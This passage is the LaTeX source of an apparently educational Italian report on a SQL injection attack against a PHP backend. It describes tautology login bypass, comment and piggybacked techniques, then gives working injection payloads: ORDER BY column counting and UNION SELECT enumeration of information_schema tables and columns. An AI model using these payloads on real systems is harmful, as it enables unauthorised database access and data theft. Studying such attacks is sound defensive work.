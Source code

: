 \documentclass[a4paper,12pt]{article}
\begin{document}
Il backend PHP genera dinamicamente query SQL non protette, vulnerabili a iniezione.

\section*{2. Tecniche di attacco usate}
\begin{itemize}
    \item \textbf{Tautologia:} per bypassare i controlli login (es: \texttt{' OR '1'='1' --})
    \item \textbf{Commento di fine riga:} per ignorare il resto della query (es: \texttt{--})
    \item \textbf{Query piggybacked:} per concatenare comandi distruttivi come DROP TABLE
\end{itemize}

\section*{3. Fasi dell'attacco}


\subsection*{3.1 Raccolta informazioni}
Tipo di attacco: \textbf{Commento di fine riga}

L’attaccante ha prima testato il numero corretto di colonne presenti nella query originale 
utilizzando ORDER BY:

\begin{lstlisting}
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY n --
...
\end{lstlisting}

sostituendo ogni volta n con un numero crescente (3, 4, 5…).
Quando la query genera un errore, significa che n ha superato il numero effettivo di colonne.
Il numero massimo che non produce errore rappresenta dunque il numero esatto di colonne.

Successivamente, l’attaccante ha identificato la tabella e le colonne:

\begin{lstlisting}
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' --
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='utenti' --
\end{lstlisting}


\begin{figure}[H]
\centering
\includegraphics[width=0.5\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_11.38.21.png}
\caption{Enumerazione delle tabelle}
\end{figure}
\end{document}

